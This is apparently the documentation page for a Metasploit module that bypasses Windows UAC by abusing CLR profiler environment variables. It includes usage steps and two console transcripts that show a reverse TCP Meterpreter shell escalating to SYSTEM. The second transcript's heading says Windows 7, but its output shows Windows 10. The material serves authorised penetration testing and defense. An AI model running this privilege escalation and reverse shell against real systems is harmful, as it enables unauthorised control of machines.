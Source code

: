 ## Introduction

Microsoft Windows allows for the automatic loading of a profiling COM object during
the launch of a CLR process based on certain environment variables ostensibly to
monitor execution.  In this case, we abuse the profiler by pointing to a payload DLL
that will be launched as the profiling thread.  This thread will run at the permission
level of the calling process, so an auto-elevating process will launch the DLL with
elevated permissions.  In this case, we use gpedit.msc as the auto-elevated CLR
process, but others would work, too.

## Usage

1. Create a session on the target system under the context of a local administrative user.
2. Begin interacting with the module: `use exploit/windows/local/bypassuac_dotnet_profiler`.
3. Set the `PAYLOAD` and configure it correctly.
4. If an existing handler is configured to receive the elevated session, then the module's
   handler should be disabled: `set DisablePayloadHandler true`.
5. Make sure that the `SESSION` value is set to the existing session identifier.
6. Invoke the module: `run`.

## Scenarios

### Windows Windows 7 (6.1 Build 7601, Service Pack 1) x64

```
msf exploit(windows/local/bypassuac_dotnet_profiler) > run

[*] Started reverse TCP handler on 192.168.135.168:4444 
[*] UAC is Enabled, checking level...
[*] Checking admin status...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] win_dir = C:\Windows
[*] tmp_dir = C:\Users\msfuser\AppData\Local\Temp
[*] exploit_dir = C:\Windows\System32\
[*] target_filepath = C:\Windows\System32\gpedit.msc
[*] Making Payload
[*] payload_pathname = C:\Users\msfuser\AppData\Local\Temp\vehxxpkdx.dll
[*] UUID = a47dbe47-41a6-42ed-95a0-e2cc4710a75a
[*] Writing  to HKCU\Software\Classes\CLSID\{a47dbe47-41a6-42ed-95a0-e2cc4710a75a}\InprocServer32
[*] Writing COR_PROFILER to HKCU\Environment
[*] Writing COR_ENABLE_PROFILING to HKCU\Environment
[*] Writing COR_PROFILER_PATH to HKCU\Environment
[*] Uploading Payload to C:\Users\msfuser\AppData\Local\Temp\vehxxpkdx.dll
[*] Payload Upload Complete
[*] Launching C:\Windows\System32\gpedit.msc
[!] This exploit requires manual cleanup of 'C:\Users\msfuser\AppData\Local\Temp\vehxxpkdx.dll!
[*] Please wait for session and cleanup....
[*] Sending stage (206403 bytes) to 192.168.132.187
[*] Meterpreter session 5 opened (192.168.135.168:4444 -> 192.168.132.187:49234) at 2019-11-15 12:14:41 -0600
[*] Removing Registry Changes
[*] Deleting HKCU\Software\Classes\CLSID\{a47dbe47-41a6-42ed-95a0-e2cc4710a75a}\InprocServer32 key
[*] Deleting COR_PROFILER from HKCU\Environment key
[*] Deleting COR_ENABLE_PROFILING from HKCU\Environment key
[*] Deleting COR_PROFILER_PATH from HKCU\Environment key
[*] Registry Changes Removed

meterpreter > sysinfo
Computer        : WIN7X64-SP1
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: WIN7X64-SP1\msfuser
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 

```

### Windows Windows 7 (6.1 Build 7601, Service Pack 1) x64
```
msf exploit(multi/handler) > use exploit/windows/local/bypassuac_dotnet_profiler 
msf exploit(windows/local/bypassuac_dotnet_profiler) > set session 6
session => 6
msf exploit(windows/local/bypassuac_dotnet_profiler) > show options

Module options (exploit/windows/local/bypassuac_dotnet_profiler):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   PAYLOAD_NAME                   no        The filename to use for the payload binary (%RAND% by default).
   SESSION       6                yes       The session to run this module on.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.135.168  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x64


msf exploit(windows/local/bypassuac_dotnet_profiler) > run

[*] Started reverse TCP handler on 192.168.135.168:4444 
[*] UAC is Enabled, checking level...
[*] Checking admin status...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] win_dir = C:\Windows
[*] tmp_dir = C:\Users\msfuser\AppData\Local\Temp
[*] exploit_dir = C:\Windows\System32\
[*] target_filepath = C:\Windows\System32\gpedit.msc
[*] Making Payload
[*] payload_pathname = C:\Users\msfuser\AppData\Local\Temp\LNpAorHj.dll
[*] UUID = d472ba96-3dfc-432c-8ad2-f44ada2a39ec
[*] Writing COR_PROFILER to HKCU\Environment
[*] Writing COR_ENABLE_PROFILING to HKCU\Environment
[*] Writing COR_PROFILER_PATH to HKCU\Environment
[*] Uploading Payload to C:\Users\msfuser\AppData\Local\Temp\LNpAorHj.dll
[*] Payload Upload Complete
[*] Launching C:\Windows\System32\gpedit.msc
[!] This exploit requires manual cleanup of 'C:\Users\msfuser\AppData\Local\Temp\LNpAorHj.dll!
[*] Please wait for session and cleanup....
[*] Sending stage (206403 bytes) to 192.168.132.125
[*] Meterpreter session 7 opened (192.168.135.168:4444 -> 192.168.132.125:49683) at 2019-11-15 12:18:54 -0600
[*] Removing Registry Changes
[*] Deleting COR_PROFILER from HKCU\Environment key
[*] Deleting COR_ENABLE_PROFILING from HKCU\Environment key
[*] Deleting COR_PROFILER_PATH from HKCU\Environment key
[*] Registry Changes Removed

meterpreter > sysinfo
Computer        : DESKTOP-D1E425Q
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: DESKTOP-D1E425Q\msfuser
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 

```
